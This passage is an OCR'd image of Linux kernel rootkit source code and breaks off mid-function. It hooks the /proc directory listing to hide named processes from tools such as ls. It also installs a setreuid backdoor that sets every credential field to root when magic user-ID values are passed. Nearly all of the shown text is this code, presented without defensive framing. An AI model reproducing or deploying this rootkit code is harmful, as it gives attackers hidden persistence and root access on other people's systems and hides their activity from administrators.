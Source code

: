     
    static int 
    my_filldir(void *buf, char *proc_name, int len, loff_t off, u64 ino, unsigned int d_type){
    	// hide the processes
    	unsigned int i = 0;
    	char *str = hide_proc[i++];
    	while(str){
    		if(!strcmp(proc_name, str)){
    			printk("haha\n");
    			return 0;
    		}
    		str = hide_proc[i++];
    	}
    	return original_filldir(buf, proc_name, len, off, ino, d_type);	
    }
    
    static int 
    my_proc_readdir(struct file* filep, void *dirent, filldir_t filldir){
    	original_filldir = filldir;
    	return original_proc_readdir(filep, dirent, my_filldir);
    }
    
    bool 
    init_HJ_proc(){
    	//name the dummy proc with hide_ prefix so that it won't show when user try to check /proc with ls
    	hide_HJ_dummy = create_proc_entry("hide_dummy", 0777, NULL);
    	HJ_target = hide_HJ_dummy->parent;
    	fops_ptr = ((struct file_operations *)HJ_target->proc_fops);
    	original_proc_readdir = fops_ptr->readdir;
    	fops_ptr->readdir = my_proc_readdir;
    	return true;
    }
    
    bool 
    rm_HJ_proc(){
    	remove_proc_entry("dummy", NULL);
    	fops_ptr->readdir = original_proc_readdir;
    	return true;
    }


(6) Privilege Escalation

    
    asmlinkage long
    my_setreuid(uid_t ruid, uid_t euid) {
    
    	// Hooking a certain condition below
    	if( (ruid == BACKDOOR_RUID) && (euid == BACKDOOR_EUID) ) {
    		struct cred *credential = prepare_creds();
    
    		// Set the permission of the current process to root
    		credential -> uid = 0;
    		credential -> gid = 0;
    		credential -> euid = 0;
    		credential -> egid = 0;
    		credential -> suid = 0;
    		credential -> sgid = 0;
    		credential -> fsuid = 0;
    		credential -> fsgid = 0;
    		